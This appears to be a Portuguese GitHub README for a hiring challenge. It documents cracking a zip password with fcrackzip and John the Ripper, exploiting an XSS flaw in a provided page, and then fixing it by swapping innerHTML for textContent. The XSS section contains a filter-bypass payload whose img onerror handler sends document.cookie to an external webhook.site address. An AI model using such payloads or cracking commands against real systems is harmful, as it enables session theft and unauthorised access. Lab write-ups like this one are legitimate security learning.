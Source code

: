# 🔐 Desafio Técnico - dti digital

Projeto desenvolvido como parte do processo seletivo da **dti digital**.

---

## 🧩 Etapa 1 - Quebra de senha de arquivo `.zip`

A primeira fase do desafio consistia em descobrir a senha de um arquivo `.zip`, que continha o enunciado da segunda parte.

---

## 🚧 Estratégias Utilizadas

### 1. Força Bruta Simples (sem padrões)

#### 🛠 Ferramenta: `fcrackzip`

o fcraskzip permite escolher quais tipos e quantidade de digitos utilizados para quebrar o padrão. 

Comando usado:
```sh
fcrackzip -u -b -c 1aA! -l 4-4 arquivo_protegido.zip
```

- `1` → dígitos numéricos  
- `a` → letras minúsculas  
- `A` → letras maiúsculas  
- `!` → caracteres especiais  
- `-l 4-4` → senhas de exatamente 4 caracteres

A primeira tentativa foi realizar combinações simples entre letras maiusculas, minusculas, caracteres especias e numeros. Ou seja, o número 6 na linha "número" e na coluna "especial" significa que foi tentado gerar padrões de até 6 digitos utilizando combinações de números e caracteres especiais.

|                     | Número | Minúsculo | Maiúsculo | Especial |
|---------------------|:------:|:---------:|:---------:|:--------:|
| **Número**          |   8    |     5     |     5     |**->6**    |
| **Minúsculo**       |   5    |     6     |     5     |    5     |
| **Maiúsculo**       |   5    |     5     |     6     |    5     |
| **Especial**        |   6    |     5     |     5     |6       |

Foram realizadas todas combinações possíveis dada a complexidade de tempo, como por exemplo, utilizando digitos númericos, caracteres especiais e letras minúsculas, porém não surtiu efeito.

> ❌ Tentativa falhou.

---

### 2. Força Bruta com Dicionário Personalizado

#### 🛠 Ferramenta: `fcrackzip` com dicionário

Para a segunda tentativa foram criados scripts em python(`/bruteForce`) para gerar combinações de senhas, e salvando as combinações em um arquivo `dicionario.txt`. Por exemplo, gerar senhas com o padrão `DTI`,`dti`, `dtiDigital`, `SENHA` ou `anna` (nome recrutadora).

Exemplos:
- `123DTI123`
- `abDTI123`
- `ooSENHAoo`

Comando usado:
```sh
fcrackzip -u -D -p dicionario.txt desafio.zip
```

> ❌ Tentativa falhou (mas poderia funcionar com o padrão correto).

---

### 3. Força Bruta com Dicionário Real

#### 🛠 Ferramenta: `john-jumbo`

Utilizado o dicionário `rockyou.txt`.

##### Passo 1: Gerar o hash
```sh
~/john-jumbo/run/zip2john /home/gnobisp/Desktop/desafio.zip > /home/gnobisp/Desktop/hash.txt
```

##### Passo 2: Rodar o ataque
```sh
john --format=zip /home/gnobisp/Desktop/hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

> ✅ Senha descoberta com sucesso: **`oopasswordoo`**

---
## 🧩 Etapa 2 - Explorar vulnerabilidade da página
Na primeira fase do desafio obtivemos dois arquivos um `index.html` e um `readme.txt` que continha as instruções da segunda fase do desafio.

### O primeiro passou tomado foi iniciar o arquivo index.html em um servidor `http` local
```sh
python3 -m http.server 8000
```
Após isso utilizei a ferramenta de inspecionar para encontrar possíveis falhas.

### Encontrando as dicas
A primeira dica que encontrei foi a própria flag. A partir dela, identifiquei uma possível variável de interesse: document.cookie = "flag=XSS_FLAG_YOU_DID_IT";.
Ao inspecionar um pouco mais, percebi uma segunda pista, deixada devido ao desenvolvimento erroneo do código. O próprio desenvolvedor parecia estar ciente da falha, e por isso incluiu o seguinte filtro:
```sh
let sanitizedResult = result.toString().replace(/script|alert/gi, '');
```
Porém, a solução mal feita gerou uma dica valiosa de como explorar a página, deveriamos utilizar uma técnica chamada `xss vulnerability`, essa consiste de injetar scripts na página e coletar dados sensíveis.

### Explorando a falha
Primeiramente, tentei injetar um script simples como, por exemplo: 
```sh
<script>alert(document.cookie)</script>
```
Porém não surtiu efeito, por causa do filtro citado anteriormente.
Após isso, procurei comando que conseguiriam sair desse filtro, a solução encontrada foi passar o comando como uma imagem:
```sh
<img src="x" onerror="fetch('https://webhook.site/612782d7-71cc-4c36-8869-472cd8b9c56d?c='+document.cookie); alert(document.cookie)">
```
No comando acima, eu também coloquei para que o dado seja transmitido para um servidor de teste, para evidenciar a falha de segurança. Esse texto pode ser visto no gif abaixo:

![GIF](docs/teste.gif)


## 🧩 Etapa 3 - Refatorar o código corrigindo a falha
Na segunda fase do desafio, encontramos a falha de segurança e exploramos ela. Para a etapa 3, devemos resolver essa falha de segurança. 

#### 1ª Solução Testada: Usar `<input type="number">`
O que foi feito:
Substituir os campos de:
```sh
<input type="text" id="num1" placeholder="Número 1">
```
para
```sh
<input type="number" id="num2" placeholder="Número 1" required>
```
A solução, inicialmente, se mostrou eficiente. O usuário fica impossibilitado de escrever texto, assim impossibilitando de enviar scripts. Porém, o usuário pode alterar as regras do html assim modificando para que seja aceito texto novamente.

> ❌ Tentativa falhou.
#### 2ª Solução Testada: Usar `newEntry.textContent = entry;`

A segunda solução encontrada foi substituir:
```sh
newEntry.innerHTML = entry;
```
por 
```sh
newEntry.textContent = entry;
```
Isso evita que scripts sejam rodados. No meu pensamento o problema do item anterior iria permanecer, ou seja, o usuário poderia alterar o código html para voltar para `newEntry.innerHTML = entry;`. Porém, pelos testes realizados, foi resolvido.

> ✅ Falha resolvida.

## 🧩 Etapa 4 - Explicando a falha
Considerando o seguinte enunciado:
```sh
Você se deparou com esse código em um dos times que está auxiliando, aqui na dti. E agora? Qual seria sua abordagem para apoiar o time?
Como explirar para eles o que está acontecendo e como o código poderia ser mais seguro?
```
#### Explicando o problema


Identificamos uma falha de segurança do tipo Cross-Site Scripting (XSS), que permite que um usuário mal-intencionado injete código JavaScript por meio dos campos de entrada.

É como deixar a porta do nosso escritório aberta. Qualquer pessoa pode entrar, usar os computadores e sair sem ser notada. Tudo parece funcionar normalmente, mas se alguém com más intenções aproveitar essa brecha, poderá causar danos irreparáveis em nossos sistemas.

A solução que eu encontrei foi o uso de ".innerHTML" por ".textContent" para neutralizar a execução de código malicioso. Alguém tem sugestões ou alternativas para discutirmos?

Se não, vamos para o próximo passo, que seria procurar no restante dos nosso códigos que usamos .innerHTML indevidamente. Encontrando esse erros, vamos refatorar o código de maneira adequada.

Um próximo passo futuro, será analisar possíveis vazamentos que ocorreram quando essa vulnerabilidade estava ativa.

Não se preoucupem, irei orientar vocês nesse primeiro momento de como podemos fazer isso
